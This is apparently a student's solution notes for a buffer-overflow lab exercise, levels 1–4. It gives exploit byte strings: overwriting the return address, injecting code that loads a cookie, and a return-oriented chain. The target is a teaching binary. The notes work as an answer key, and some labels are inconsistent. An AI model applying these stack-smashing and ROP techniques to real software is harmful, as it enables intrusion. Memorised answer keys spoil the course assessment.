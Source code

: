 # Solution With Notes

## Level 1
- touch1 address: 0x00000000004017c0

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp      // Allocates 28 bytes
  ...
```

**String**: 
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 /* touch1 address */
```

## Level 2
- touch2 address: 0x00000000004017ec

<ins> Exploit code:
```
   0:	bf fa 97 b9 59       	mov    $0x59b997fa, %edi    // Cookie value
   5:	c3                   	ret    
```

<ins> Format: 
  1. Filler
  2. Address of exploit code, *%rsp on getbuf ret
  3. Address of touch2, *%rsp on exploit code ret
  4. Exploit code

- Exploit code address: getbuf starting %rsp + 16 = 0x55685fc0 + 0x10 = 0x55685fd0

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d0 5f 68 55 00 00 00 00 /* exploit code address */
ec 17 40 00 00 00 00 00 /* touch2 address */
bf fa 97 b9 59 c3       /* exploit code */
```

## Level 3
- touch3 address: 0x00000000004018fa

<ins> Format: 
  1. Filler
  2. Address of exploit code
  4. Address of touch3
  5. Cookie string, 9 bytes
  6. Exploit code

- Exploit code address: getbuf starting %rsp + 16 + 9 = 0x55685fd9
- Cookie string: "59b997fa" -> hex -> 35 39 62 39 39 37 66 61 00
- Cookie string address: getbuf starting %rsp + 16 = 0x55685fd0

<ins> Exploit code:
```
   0:	bf d0 5f 68 55       	mov    $0x55685fd0, %edi      // Set argument 1 to point to cookie string (upper 32 bits set to 0)
   5:	c3                   	ret    
```

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d9 5f 68 55 00 00 00 00 /* exploit code address */
fa 18 40 00 00 00 00 00 /* touch3 address */
35 39 62 39 39 37 66 61 /* cookie string */
00
bf d0 5f 68 55 c3       /* exploit code */
```

## Level 4
- touch4 address: 0x00000000004017ec

| Address   | Operation |
| -------- | ------- | 
| 4019a2    | movq %rax, %rdi    |
| 4019ab    | popq %rax    |
    
    

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* popq %rax */
fa 97 b9 59 00 00 00 00 /* cookie value */
a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
ec 17 40 00 00 00 00 00 /* goto touch3 */
```
